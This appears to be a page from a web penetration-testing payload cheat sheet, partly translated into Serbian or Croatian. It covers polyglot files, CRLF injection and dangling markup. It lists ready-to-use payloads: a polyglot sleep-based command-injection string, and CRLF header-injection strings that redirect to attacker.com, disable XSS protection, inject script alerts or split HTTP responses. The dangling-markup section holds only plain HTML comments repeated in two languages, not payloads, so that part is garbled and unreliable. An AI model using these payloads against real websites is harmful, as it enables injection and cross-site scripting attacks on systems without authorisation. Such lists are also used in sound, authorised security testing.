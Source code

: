 ### Poligloti

Polyglots (also known as polyglot files) are files that can be interpreted as different file types depending on the context in which they are opened. In the context of web hacking, polyglots can be used to bypass security measures and execute malicious code.

Polyglots are typically created by combining the syntax and structure of multiple file types into a single file. This allows the file to be interpreted differently by different applications or systems.

For example, a polyglot file may appear as a harmless image file when opened in an image viewer, but it can also be interpreted as a JavaScript file when opened in a web browser. This can be exploited by an attacker to execute arbitrary code on a vulnerable website.

Polyglots can be used in various hacking scenarios, such as bypassing file upload filters, evading web application firewalls, or exploiting vulnerabilities in file parsers.

To create a polyglot file, you need to carefully craft the file's content to conform to the syntax and structure of multiple file types. This requires a deep understanding of the file formats involved and the ability to manipulate the file's binary representation.

Polyglots are a powerful tool in the arsenal of a hacker, as they can help bypass security measures and gain unauthorized access to systems. However, it's important to note that the creation and use of polyglots for malicious purposes is illegal and unethical.

```bash
1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
```

## [CRLF](../crlf-0d-0a.md)

### Osnovni testovi

```bash
%0d%0aLocation:%20http://attacker.com
%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
```

## Visak Markup

### Osnovni Testovi

```html
<!-- HTML Comment -->
<!-- HTML Komentar -->

<!-- HTML Comment with dangling markup -->
<!-- HTML Komentar sa visak markup-a -->

<!-- HTML Comment with dangling markup and closing tag -->
<!-- HTML Komentar sa visak markup-a i zatvarajucom oznakom -->

<!-- HTML Comment with dangling markup and self-closing tag -->
<!-- HTML Komentar sa visak markup-a i samozatvarajucom oznakom -->

<!-- HTML Comment with dangling markup and attribute -->
<!-- HTML Komentar sa visak markup-a i atributom -->

<!-- HTML Comment with dangling markup and attribute value -->
<!-- HTML Komentar sa visak markup-a i vrednoscu atributa -->
```